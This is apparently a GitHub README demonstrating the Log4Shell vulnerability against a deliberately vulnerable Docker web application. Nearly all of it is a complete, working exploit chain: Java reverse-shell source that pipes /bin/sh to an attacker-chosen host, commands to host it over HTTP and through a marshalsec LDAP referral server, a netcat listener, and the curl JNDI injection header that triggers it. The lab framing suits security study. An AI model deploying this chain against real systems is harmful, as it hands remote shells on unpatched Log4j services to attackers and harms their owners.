 # log4jshell
log4j setup demonstration


# Setting up docker and running vulnerable web application on docker container
Install docker in kali linux

Then download the below repository

```
git clone https://github.com/christophetd/log4shell-vulnerable-app.git
```

Then the run the below commands to start vulnerable web application on port 8080
```
docker build . -t vulnerable-app
```
```
docker run -p 8080:8080 --name vulnerable-app vulnerable-app
```
# Creating payload and setting up python server

Use below java code and save it as Exploit.java

Change the host and port details as you setup for nc listner

```javascript
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Exploit {

  public Exploit() throws Exception {
    String host="%s";
    int port=%s;
    String cmd="/bin/sh";
    Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
    Socket s=new Socket(host,port);
    InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
    OutputStream po=p.getOutputStream(),so=s.getOutputStream();
    while(!s.isClosed()) {
      while(pi.available()>0)
        so.write(pi.read());
      while(pe.available()>0)
        so.write(pe.read());
      while(si.available()>0)
        po.write(si.read());
      so.flush();
      po.flush();
      Thread.sleep(50);
      try {
        p.exitValue();
        break;
      }
      catch (Exception e){
      }
    };
    p.destroy();
    s.close();
  }
}
```

Run the below command to build Exploit.class
```
javac Exploit.java -source 8 -target 8
```
```
python3 -m http.server 8888
```
# Setting up LDAP server
```
git clone https://github.com/mbechler/marshalsec.git
```
```
mvn package -DskipTests
```
```
cd target
```
```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<IP_OF_PYTHON_SERVER_FROM_STEP_1>:8888/#Exploit"
```
setup netcat listner
```
nc -lvp 9999
```
# will execute below payload to get a shell
```
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Exploit\}
```
